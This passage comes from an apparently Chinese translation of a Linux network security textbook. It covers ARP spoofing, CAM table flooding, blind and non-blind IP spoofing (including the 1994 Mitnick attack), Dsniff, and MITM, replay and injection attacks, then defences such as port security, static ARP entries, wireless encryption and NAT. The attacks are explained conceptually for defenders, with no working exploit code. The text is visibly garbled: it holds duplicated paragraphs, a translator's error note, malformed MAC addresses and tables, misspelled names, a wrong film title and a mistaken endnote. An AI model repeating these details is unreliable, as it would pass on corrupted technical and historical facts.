Dummy (192.168.0.3) at 00:02:b1:17 [ether] on eth0
```

在 `Server` 上：

```bash
Server$ /sbin/arp -a
Client (192.168.0.2) at 00:60:08:13 [ether] on eth0
Dummy (192.168.0.3) at 00:02:b1:17 [ether] on eth0
```


### 流量嗅探与转发机制

第一步是通过发送 `ARP` 回复来污染这些机器的缓存。`Ettercap` 有此选项，常用的嗅器也是如此。攻击者向 `Client` 发送 `ARP` 回复，告诉它 `MAC` 地址 `00:02:a5:54:7c:29` 关联到 `IP` `192.168.0.4`；向 `Server` 发送 `ARP` 回复，告诉它 `MAC` 地址 `00:60:08:13` 也关联到此 `IP`。最后设置一个守护进程来转发帧。数据流现在如图 2.15 所示，攻击者可以愉快地嗅探连接，而客户端或服务器都没有意识到异常。所示，嗅探到的数据随后被转发到客户端。

然而，`ARP` 欺骗并不是嗅探交换局域网流量的唯一方法。交换机通过监控传入帧的源地址学习设备的 `MAC` 地址，并存储在 `CAM` 表（内容内存）中；此表可以根据目的地址查找从哪个端口发送帧。然而，这种内存是有限的，通过带有不同源 `MAC` 的伪造 `ARP` 回复，该内存会被占。一旦这种情况发生，许多交换机（现在不知道从哪个端口发送帧）将退回到集线器模式。局域网现在被轻易嗅探。

### `IP` 欺骗

在列出的所有技术中，`IP` 欺骗无疑是被提及最多但最少被理解的攻击形式；也许行业内的专业人士不是，但普通用户确实是。黑客说法认为许多用户将任何误导信息——运行在代理后的攻击者、带有虚假“发件人”头的电子邮件或使用虚拟主机的 `IRC` 用户——视为 `IP` 欺骗；或者这只是该短语含义的误解。无论如何，`IP` 欺骗的定义变得模糊。作者在使用术语时经常表现出对其缺乏基础知识，直到现在我们一直在避免使用这个词。

到底什么是 `IP` 欺骗？伪造数据包源地址的行为是非常简单的。源地址只是 `IP` 头部中的许多字段之一，没有什么能阻止发送者将其重写为他选择的值。真正的困难在于目标机器回答这些伪造的数据包，因为回复被发送到了欺骗地址而不是攻击者。这对于 `UDP`/`ICMP` 洪水攻击通常不是问题，因为响应并不重要；但它为 `TCP` 连接带来了严重问题，而在 `TCP` 连接中欺骗源地址利润最高，因为许多服务（如 Berkeley 套件）使用了基于主机的身份验证。

我们在讨论 `SYN` 洪水时早期提到了三次握手，但遗漏了一些细节。让我们看更详细的三次握手图（见图 2.17）。

之前未提到的是，客户端和服务器在此过程中都会交换初始序列号（`ISN`），我们在此分别称为 `ISN_c` 和 `ISN_s`：

- 步骤 1：客户端发送一个带有 `SYN` 标志的 `TCP` 数据包（如之前）；它还选择并标记了一个 `ISN_c`。
- 1) `SYN` `ISN_c`
- 2) `SYN`, `ACK` `ISN_c + 1`, `ISN_s`
- 3) `ACK` `ISN_s + 1`

图 2.17 三次握手期间的序列号交换。

步骤 2：服务器递增 `ISN_c` 并回显，带有自己的 `ISN_s`。

步骤 3：客户端响应 `ACK`，其中包含加1 的 `ISN`。

`tcpdump`（适用于 Linux 其他平台的有用数据包捕获工具）的输出有助于说明这一点，同时为你提供了读取 `tcpdump` 输出的有用练习。在这里我们看到来自 `SSH` 客户端 (`192.168.10.10`) 尝试打开 `192.168.10.1` 上的 `SSH` 守护进程：

```
# tcpdump -S it

192.168.10.57250 > 192.168.10.1.ssh: S 3641941435:3641941435(0)

win 5840 <ms 1460,ackOK,timestamp 56854433 0,nop,wscale D=0 (DF)

192.168.10.1.ssh > 192.168.10.57250: S 3038199363:3038199363(0)

ack 3641941436 win 5792 <ms 1460,ackOK,timestamp 49651528

56854433,nop,wscale D=0 (DF)
```


# Linux 网络安全



图 2.18 盲 IP 欺骗。

重启（`reboot`），或者强制阻止其应答，例如通过 `SYN` 洪泛攻击使 `A` 瘫痪。

下一个问题稍微棘手一些。攻击者 `X` 无法看到 `B` 机向 `A` 发送的 `ISN`（初始序列号），而他需要这个数字在握手协议的第 3 步中递增并回显。需要的是某种预测序列号将是多少的方法。事实证明，历史上的序列号更容易猜到——在大多数情况下，每个连接都只是简单地增加一个固定值。现代操作系统（包括 `Linux`）会尽全力确保 `ISN` 尽可能不可预测的，因此现在很少能看到这种类型的欺骗了。此外，基于主机的身份验证已不再青睐，而它所采用的服务（如 `rsh`、`rexec` 等）正被更安全的协议（如 `SSH`）所取代，`SSH` 不仅仅依赖 `IP` 地址进行身份验证。

### 凯文·米特尼克与岛村茂

最著名的破解者无疑是凯文·米特尼克（`Kevin Mitnick`）（他们甚至为他拍了一部电影：《黑客帝国2：追捕行动》）。无论你对米特尼克的看法如何（对某些人来说他是一个电子战士，对另一些人只是一个普通罪犯），不可否认他在 1994 年圣诞节对岛村茂（`Tsutomo Shimimura`）网络的攻击是破解界的杰作。对于我们来说，岛村一直是安全专家（这是米特尼克攻击的动机之一），并对该攻击提供了详细的分析 `[Shimimura95]`。

这一切始于从一个之前被攻破的机器对岛村家庭网络进行的一系列探测。这些探测（`finger`、`showmount` 和 `ping` 请求）的目的似乎是为了确定网络上两台机器之间是否存在某种信任关系：一个作为 `X` 终端，另一个作为服务器。几分钟后，30 个来自伪造的不存在的 `IP` 的 `SYN` 包到达了服务器的端口 513 (`login`)，填满了连接队列。

# 理解该问题 67

接下来是来自一个（推测已被攻破的）`.edu` 站向 `X` 终端进行的 20 次连接尝试。这些尝试的目的是观察 `X` 终端序列号生成器的行为，寻找模式。存在一个明显的模式——成功的 `ISN` 比上一个大 128,000（这是此时大多数 `Unix` `TCP/IP` 协议栈中的标准模式），这使得预测未来的 `ISN` 变得轻而易举。

攻击的最后阶段是向端口 514 (`rshd`) 发送一个 `SYN` 包，伪造源自服务器的端口 513 (`login`)。`X` 终端欺骗了服务器，并愉快地发送了 `SYN-ACK`。服务器仍然深陷于 `SYN` 洪泛导致的半打开连接中，因此它只是静静地丢弃了该 `SYN-ACK`，而不是发送 `RST`（重置包），后者会破坏攻击。使用预测的 `ISN`，米特尼克发送了 `ACK` 回复，完成了握手。现在建立了一个单向连接（米特尼克发送数据，但无法看到回复，因为回复正发送到服务器）。此之后，一切一帆风顺；`.hosts` 文件被修改以允许无限制访问，伪造的连接关闭。米特尼克可以从世界上任何机器以 `root` 身份登录到终端。

描述的攻击类型被称为盲欺骗（`blind spoofing`）：攻击者无法看到目标机器的响应，而是必须猜测响应将会是什么。这在 `ISN` 预测上被证明是特别棘手的。

### 非盲欺骗

非盲欺骗发生在攻击者与受害者处于同一网段时，与盲欺骗不同，它相对容易执行，因为攻击者可以嗅探序列号。非盲欺骗最大的危险是会话劫持（`session hijacking`），即攻击者接管现有的 `TCP` 连接，从而绕过任何密码保护。

注：非盲欺骗发生在攻击者与受害者处于同一网段时，与盲欺骗不同，它相对容易执行，因为攻击者可以嗅探序列号。非盲欺骗最大的危险是会话劫持，即攻击者接管现有的 `TCP` 连接，从而绕过任何密码保护。 (注：此处原文似乎有翻译错误：现在建立了一个单向连接（米特尼克发送数据，但无法看到回复，因为回复正发送到服务器）。

由于加密的使用可以解决 `MITM` 攻击问题，因为读者捕获的任何数据对他来说将是不可理解的格式；但这导致了另一种形式的攻击——重放攻击（`Replay Attack`），即嗅探到的数据被简单记录并在之后回给受害者。这允许攻击者仿充其中一个连接，尽管他无法以未加密的形式查看嗅探的数据。由于此，`SSH` 和 `HTTPS` 等协议并不单独使用加密，而是与保证远程主机完整性的方法相结合使用。

# Linux 网络安全


攻击者
192.168.0.4
服务器
192.168.0.1
192.168.0.2
客户端
192.168.0.3
非盲欺骗
图 2.19 交换局域网中的盲欺骗。

### Dsniff

最先进的开源嗅探工具之一是 `Dsniff` (`http://www.monkey.org/~dsniff/`)，由 `Song` 开发。不仅仅是一个嗅探器，`Dsniff` 还是一个程序包，可用于执行本章概述的许多攻击。你可以看到，最新版本包含了：

- `Arpoof`：伪造 `ARP` 回复。
- `Dnspoof`：伪造 `PTR`（指针）记录。
- `Fileshelf`：嗅探如 `NFS` 等协议。
- `Macof`：泛洪 `MAC` 地址，导致交换机失效。
- `Msgsnarf`：嗅探 `ICQ`、`Yahoo!` 和 `AIM` 等聊天会话。
- `Mailsnarf`：嗅探通过 `SMTP` 或 `POP` 连接的电子邮件。
- `SSHmit`：执行 `SSH`（见后文章节）。
- `Tcpkill`：重置 `TCP` 连接。
- `Urlsnarf`：嗅探 `URL`。某些网站将用户名/密码存储在 `URL` 中。
- `Webmitm`：执行 `HTTPS` 中间人攻击。

你可以看到，`Dsniff` 让攻击者能够执行许多攻击。

### 中间人攻击

盲欺骗和非盲 `IP` 欺骗都是被称为中间人攻击（`Man-in-the-Middle, MITM`）的这一类攻击的形式。会话劫持涉及完全接管客户端，而 `MITM` 攻击可以更加微妙，攻击者只是向会话注入数据而不接管它。通过这种方式，攻击者可能会欺骗客户端显示敏感信息（例如，“请重新输入密码”）。

`SSH` 和 `HTTPS` 等协议不受这些注入攻击的影响，因为不仅所有数据都经过加密，还有完整性检查、排序和源验证；但再次 `Diff` 通过两个程序提供了救援：`SSHmit` 和 `Webmitm`。两者都欺骗客户端认为它连接到了真实的服务器（使用 `ARP` 欺骗），欺骗服务器认为它连接到了客户端。通过这种方式，双方使用的密钥可能会被记录并用于加密注入的数据。

### 重放攻击

加密的使用可以解决 `MITM` 攻击问题，因为读者捕获的任何数据对他来说将是不可理解的格式；但这导致了另一种形式的攻击——重放攻击，即嗅探到的数据被简单记录并在之后回给受害者。这允许攻击者仿充其中一个连接，尽管他无法以未加密的形式查看嗅探的数据。由于此，`SSH` 和 `HTTPS` 等协议并不单独使用加密，而是与保证远程主机完整性的方法相结合使用。你将在第 7 章讨论公钥密码学时看到示例，并在第 8 章讨论 `SSH` 时再次看到。

### 注入攻击 (Injection Attacks)

注入攻击涉及向已建立的连接插入数据。为了使这种场景生效，必须正在进行中间人（`MITM`）攻击，由攻击者充当连接两端之间的中继。通过修改正在被中继的数据包上的序列号，攻击者可以轻松插入数据包，而不会被任何一方察觉。注入攻击的一种常见用途是在使用一次性密码方案时，仅仅嗅探密码或捕获数据以供后续重放是随处可见的。注入序列中的数据可以是任何内容，从简单的 `TCP RST`（用于关闭连接）到某种可以利用客户端/服务器在服务器上执行命令的数据。由于注入攻击是中间人攻击的扩展，对抗后者的措施也将将消除前者。

## 总结 (SUMMARY)

在本章中，我们尝试向您介绍影响 `Linux` 系统的各种漏洞。其中许多早已被修复，仅具有历史意义；但大多数漏洞每天仍仍被世界各地的黑客利用。好消息是，这些漏洞带来的风险可以大幅降低，在某些情况下可以完全消除；这正是我们在本书其余部分将关注的内容。

本章涵盖了多种漏洞，如果你以前没有遇到过其中许多漏洞，你可能仍在尝试消化呈现的所有信息；你可能想复习本章的某些部分，因为理解漏洞是对抗它们的关键第一步。提醒你一下，我们在这里列出了最重要的攻击分类。请确保你熟悉熟悉每种攻击的工作原理。

- `DoS` 和 `DDoS`，包括如 `TrinoSmurf` 和 `Fraggle` 攻击之类的泛洪网络
- `SYN` 洪水攻击
- 数据包嗅探
- `DNS` 欺骗
- `ARP` 缓存
- 中间人攻击（`MITM`）和重放攻击（`Replay Attacks`）
- 竞态条件（`Race conditions`）
- 栈破坏（`Stack smashing`），特别是缓冲区溢出攻击
- 病毒和蠕虫，以及它们与 `Windows` 上常见的病毒有何不同
- `Rootkit` 程序（`Rootkits`）

# 理解问题 (Understanding the Problem)

## 尾注 (ENDNOTES)

1. 注意我们说“最多（up to）”。这是尝试每种密码组合所需的最长时间。平均时间仅为此的一半，如果黑客运气好，几分钟内就能全部结束。

2. 这个数字的可靠性仍有待争议。

3. 这就是为什么如果你需要手动编辑 `/etc/passwd`，你应该始终使用使用文件锁定的 `vip` 命令。

5. `http://www.computerworld.com/business/news/2000/story/0,11280,43010,0.html`

6. `http://news.zdnet.co.uk/business/03902645.2084263.htm`

7. 说“客户端发送一个带有 `SYN` 标志的 `TCP` 数据包”相当很绕口，所以通常说“客户端发送了一个 `ACK`”——虽然略有误导性，但这是一种常用的修辞手法。

8. 序列号是 `TCP` 提供的可靠性的一部分。在已建立的连接中，每发送一个数据包，序列号就会增加固定值，这允许接收者检测哪些数据包是乱序到达的或者根本没有到达。

## 参考文献 (REFERENCES)

`[Aleph16]` `Aleph1`, "Smashing the Stack for Fun and Profit." `Phrack` 49, file 14. 在线获取：`http://www.phrack.org`, 1996.

`[Bold00]` `Boldt, Alex`, "Bliss, a Linux \virus." 在线获取：`http://math-uni-paderborn.de/-axel/bliss.`, 2000.

`[Dittich99]` `Dittich, David A`, "The DoS Project's \trinoo 分布式拒绝服务攻击工具." 在线获取：`http://staff.washington.edu/dittich/misc/trinoo.analysis`, 1999.

`[Dittich01]` `Dittich, David A`, "Analysis of ssh-2 exploit." 在线获取：`http://staff.washington.edu/dittich/misc/ssh-analysis`, 2001.

`[Schuba93]` `Schuba, Christoph`, "Addressing Weaknesses in Domain System." 在线获取：`http://ftp.cerias.edu/papers/schuba-domain`, 1993.

`[Shimomura95]` `Shimomura, Tsutomu`, "How Mitnik Hacked." 在线获取：`http://www.totse.com/en/hack03`, 1995.

# 76 Linux 网络安全



我们提到交换机（`switches`）和集线器（`hubs`）之间的这一重要区别是因为其明显的安全优势。由于交换网络上的许多设备不再共享介质，许多系统管理员认为交换解决了嗅探问题。在过去，这可能已经足以阻止攻击者，但现在已经不够了 `[Sipes2000]`。我们在第 2 章中介绍过的 `ARP` 欺骗让别怀不轨的用户有能力重定向流量，而泛洪 `CAM` 表格可以导致交换机“故障打开”（`fail open`），使其表现得像集线器一样，将帧转发到每个端口。这看起来可能是一个不受欢迎的行为，但对于网络的顺畅运行，它是至关重要的。选择不会故障打开的交换机意味着，如果 `CAM` 表格因恶意原因损坏，网络上的流量将陷入停滞。鉴于 `CAM` 表格泛洪的速度之快，希望找到具有足够内置内存来处理可能数百万条虚假条目的交换机也是不切实际的。因此，尽管交换对性能非常有益，但你不应该指望它能阻止更有决心的用户嗅探数据。

图 3.2 交换网络上的帧流。

## 端口安全

许多中高端交换机提供名为“端口安全”（`port security`）的功能，它可以减少——通常是防止——`MAC` 地址欺骗。通过端口安全，管理员可以在交换机上静态地设置连接设备的 `MAC` 地址。如果检测到任何其他地址，端口将将其禁用。你也可以允许对地址进行动态检测，但将允许的地址数量限制为一个；有效意味着只有第一个连接的设备会被识别。

端口安全确实非常有用，但如果更换了网卡（或机器位置发生），交换机可能需要重新配置，这增加了管理工作。另一个潜在问题是常见的设置：交换机用作骨干，并在上面连接了集线器。在这种情况下，交换机上的情况可能合法地有多个 `MAC` 地址流过，在配置交换机时必须小心，确保端口不会意外禁用。

尽管端口安全可以限制哪些设备连接到交换机，但它并不能完全消除 `MAC` 地址伪造的问题。大多数操作系统（包括 `Linux` 和 `Windows NT/2000`）允许管理员动态更改网络适配器的 `MAC` 地址。这可能允许恶意用户更改其机器的 `MAC` 地址，并将其插入交换机上的另一个端口（该端口之前对应的 `MAC` 是有效的端口）。这样，他就可以通过他们的 `ARP` 缓存发送和接收帧，而网络上的其他设备会被欺骗，认为他的 `IP` 地址属于另一个用户。在本章的后些部分，我们将查看针对无线网络的端口安全功能。

## ARP 欺骗防护

`ARP` 欺骗在第 2 章中介绍过，在那里你学到以太网段上的每个主机都维护一个动态表，将 `IP` 地址与拥有这些设备的硬件（`MAC`）地址关联起来。如果这些表可以被提供虚假信息的未请求 `ARP` 响应所损坏，就会产生欺骗的可能。一种解决方案是在 `ARP` 表中使用静态条目，并在启动时从文件加载。通过这种方式添加的条目不会被 `ARP` 响应覆盖。

`arp` 命令可以显示和操作 `Linux` 系统的 `ARP` 缓存。在不带参数的情况下，它会列出每个条目：

```
```


`/sbin/arp`

| Address Htype HAddress Flags Mask Iface |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 192.168.0.1 ether 00:60:08:13:80:7C C eth1 |
| 192.168.10.1 ether 00:02:45:74:7C:29 C eth0 |
| 192.168.10.2 ether 00:2F:33:9C:BB:14 C eth0 |


使用 `-f` 选项会导致地址信息从外部文件加载。虽然并非正式规定，但如果在使用 `-f` 选项时传递参数，`/etc/ethers` 是 `arp` 将加载的常用文件。该文件的格式为每行一个条目，由主机名或 IP 地址后跟空格和 MAC 地址组成：

| | HWtype | HWAddress | Flags Mask | Iface |
| --- | --- | --- | --- | --- |
| 192.168.0.1 | ether | 00:60:08:13:80:7C | C | eth1 |
| 192.168.0.10 | ether | 00:02:AS:54:7C:29 | CM | eth0 |
| 192.168.0.12 | ether | 00:2F:33:9C:BB:14 | CM | eth0 |

### `-f arp`

`c` 标志表示条目是完整的，而 `m` 表示永久性条目。

这种方法的缺点是，MAC 到 IP 的映射必须在网络上进行；如果网卡或 IP 地址发生变化，网段上的 `ARP` 文件必须更新。如果你的网络使用 `NIS`，`NIS` 可以减少维护此类文件的工作，例如 `/etc/passwd` 和 `/etc/shadow` 允许账户信息保持同步。通过简单的配置，`NIS` 服务器可以作为 `/etc/ethers` 的权威。记住，`ARP` 条目不必全或无。

## 电缆调制安全

如果你的连接通过电缆调制提供，你可能会遇到同一网段内其他用户的嗅探。由于电缆调制网络的工作方式与局域网相同，用户经常会收到广播流量（例如 `NetBIOS`、`TCP` 等协议会产生大量广播包）。尽管大多数流量不是恶意的，你仍应对网关/路由器采取过滤措施，因为它会对客户端和服务器产生影响。

## 安全拓扑

尽管电缆调制器制造商努力确保其产品不被篡改，但已经发现了绕过这种安全性的方法。对于许多家庭用户来说，动机可能是无限制带宽或免费连接，但调制器设置为混合模式也是一种可能。由于这些黑客攻击依赖于制造商的固件，它们通常影响特定型号的调制器；由于许多线 `ISP` 在网络上仅支持特定类型的电缆调制器，问题并没有想象中那么普遍。尽管如此，你可能想找出你的 `ISP` 网络支持哪些调制器，并在 `Google` 上搜索已知漏洞。

## 网关、路由器和防火墙

无论你运行的是哪种网络，都需要一个设备作为互联网的网关，在两者之间路由数据包；该设备（逻辑上）被称为网关或路由器。这两个术语非常相似（通常通用）。从更广泛的意义上说，网关设备是路由器的特例实例。网关的一个重要特性是它能够连接使用不同协议的网络。图 3.3 显示了路由器/网关通常如何用于连接网络。

在这个示例中，网关设备将本地网络连接到互联网：任何访问互联网的本地流量都必须通过网关，任何发往本地网络的互联网流量也是如此。网关设备是这两个网络中的成员，并有两个网络接口——每个接口都有不同的 `IP` 地址——以反映这一点。



图 3.3 网关连接了可能运行不同协议的独立网络。

防火墙是在流量进入或离开设备或网络时过滤不需要流量的过程。由于在网络边缘进行防火墙处理通常比对网络内部的单个主机进行处理意义得多，因此防火墙的作用通常与路由结合在一起；然而，重要的是意识到这两项任务是无关的，其中一个并不意味着另一个。独立的硬件防火墙是可用的，但路由器包含内置的数据包过滤功能也已变得越来越常见。我们将此类设备称为防火墙/路由器。

尽管商业硬件路由器非常流行且易于使用，但价格差异巨大。在本书中，我们将重点关注使用 `Linux` 进行路由/防火墙的配置，原因如下：

- **性能**：一台运行 `Linux` 的旧款 `486` 电脑可以作为一个非常出色的路由器/网关/防火墙，并能处理 `T1` 线路的路由。
- **成本**：一台作为桌面机已过价值的 `PC` 仍然可以作为路由器或防火墙提供多年服务（尽管购买新 `PC` 作为路由器可能比购买商业硬件路由器更贵）。
- **灵活性**：使用商业路由器，你的选择受到设备上运行软件的限制。`Linux` 提供了无限的配置潜力，以及运行你所选择软件的能力。

话虽如此，`Linux` 路由器也有缺点：它们永远无法像宣传的硬件那样快，并且需要更多的时间来设置和维护；然而，如果你愿意投入时间，总体来说它们具有优势。

尽管两者经常结合使用，但重要的是记住路由器并不一定提供任何形式的防火墙功能——如果你选择使用硬件路由器，可能会发现自己需要购买额外的硬件防火墙。某些路由器提供了此选项，但其可能并不先进。

## 无线网络

近年来，在硬件成本下降的推动下，无线技术在局域网（`LAN`）中变得越来越流行。你可以相对便宜地买到无线接入点 (`WAP`)，并轻松地将其连接到现有的局域网，允许任何电脑带有无线网卡的用户访问网络。无线技术在黑客社区也变得流行，但原因不同。由于它仍然是一项管理员经常无法完全理解的新技术，无线网络的安全性往往非常差（而供应商出厂时接入点 (`AP`) 默认关闭安全功能这一事实也加剧了这个问题）。这在黑客中催生了一种名为“战争驱动”的爱好，即通过步行或开车主动访问无线网络。远距离天线随处可见，潜在的攻击者可以从几公里外拾获 `802.11` 信号。意识到你的无线网络上传输的数据可能被外面街道上走过的任何人拾获是令人清醒的。在黑客在无线网络上建立存在后，攻击方法与以太网局域网类似，包括 `ARP` 欺骗、中间人攻击 (`MITM`) 和流量嗅探。

## 服务集标识 (SSID)

服务集标识 (`SSID`) 充当网络名称，客户端连接到 `WAP` 时必须提供该名称，它在网络传输的帧头中传输。大多数基站都有默认 `SSID`，在很多情况下，管理员从不更改它。此类 `SSID` 包括：

- `Compaq`: `Compaq`.
- `intel`: `Intel`.
- `linksys`: `Linksys`.
- `tsunami`: `Cisco`.
- `101`: `3Com`.
- `wireless`: 各种厂商。

然而，即使更改这些默认值对保护隐私也帮助甚微，因为任何客户端都可以查询 `AP` 的 `SSID`，而 `AP` 必须响应。鉴于此，你不应该将 `SSID` 作为无线网络上的任何形式的密码。

# Linux 网络安全

## 接入点配置

配置 `AP` 的访问通常由以下组合提供：
`SNMP`（简单网络管理协议）、Web 界面、`Telnet` 或串口。尽管大多数 `AP` 需要密码才能进行更改（然而，默认密码可能非常简单），但读取权限通常授予任何人，这可能允许攻击者查看 `WEP` 密钥（下文解释）。

有线等效隐私 (`WEP`) 是无线流量的标准加密方法，但许多 `AP` 经常将其关闭，这可能并不是什么坏事：`WEP` 不是一种安全的加密方法，可能会导致虚假的安全感。尽管它能阻止偶然的嗅探者，但如果分析大量的被嗅探数据，`WEP` 就可以被破解 `[Borisov02]`。在中等繁忙的网络上，这可能只需要几个小时。

### TKIP

`WEP` 的继者是临时密钥完整性协议 (`TKIP`)，有时被称为 `Wifi` 接入保护，由 `802.11i` 标准定义。正如其名所示，该方案使用临时密钥（基于 `RC4`），用其唯一的加密密钥加密每个发送的数据包。这种逐包加密的机制使得 `TKIP` 极其安全，但效率低下，导致了大量的额外处理。由于由于原因，已经有了替换 `TKIP` 的计划。

### AES

`802.11i` 标准还包括高级加密标准 (`AES`) 协议，这种强加密方法被许多人视为 `3DES` 的继者（`3DES` 是明文 `DES` 的继者）。`AES` 需要额外的硬件（形式为单独的协处理器），这意味着所有 `AP` 必须是较新的。

安全拓扑结构 83

自 2003 年以来，几乎所有制造商都将 `AES` 整合到他们的 `AP` 中，因此这不受影响。

## 网络地址翻译 (NAT)

除了有助于分配日益减少的 `IP` 地址外，使用私有地址提供了巨大的安全优势，因为具有私有地址的机器无法访问。这就是网络地址翻译 (`NAT`) 发挥用场。过去，当 `IP` 地址廉价且充足时，组织通常购买 `C` 类（254 个主机）甚至 `B` 类（约 64,000 个主机），需要更多的 `IP` 空间。解决方案是使用私有（或内部）地址。启用 `NAT` 的路由器在数据包进入和离开网络时重写包，将私有地址转换为公共地址。在前面的示例中，离开网络的数据包源地址被重写为 `1.2.3`（见图 3.3）。



图 3.4 使用私有地址，主机无法被直接访问。

入站连接的问题稍微复杂——`NAT` 应该将流量转发到哪个机器？远程机器没有方法指定数据包应该转发到哪个私有地址，因此决定留给了 `NAT` 设备。在图 3.6 的示例中，`NAT` 将配置为将目标 `TCP` 端口 `80` 或 `443` (`HTTPS`) 的入站连接转发到 Web 服务器 `10.1.1.4`，并将目标 `TCP` 端口 `25` (`SMTP`) 和 `110` (`POP3`) 的入站连接转发到邮件服务器 `10.1.1.5`。任何不匹配这些规则的入站包将由路由器处理，并可能被丢弃。



图 3.5 出站数据包的源地址被重写。

- 1) 向远程服务 `1.2.100.9` 发送 `SYN` (`saddr=10.0.1 daddr=1.2.100.9`)
- 2) 路由器接收来自 `1.2.100.9` 的响应，在其 `NAT` 表中查找目标端口，并将目标地址重写为 `10.0.1`



图 3.6 入站目标地址被重写。

存在多种形式的 `NAT`，每种都有不同的目的。某些允许将 `IP` 地址翻译为公共地址范围，另一些在 `IPv4` 和 `IPv6` 网络之间执行翻译，仍然用于解决使用相同 `IP` 地址范围的两个网络之间的潜在冲突。`NAT` 的两个版本最感兴趣的是源 `NAT` (`SNAT`)——有时被称为网络地址和端口翻译，考虑到数据包上的源端口也被重写——以及目标 `NAT` (`DNAT`)，

# Linux 网络安全

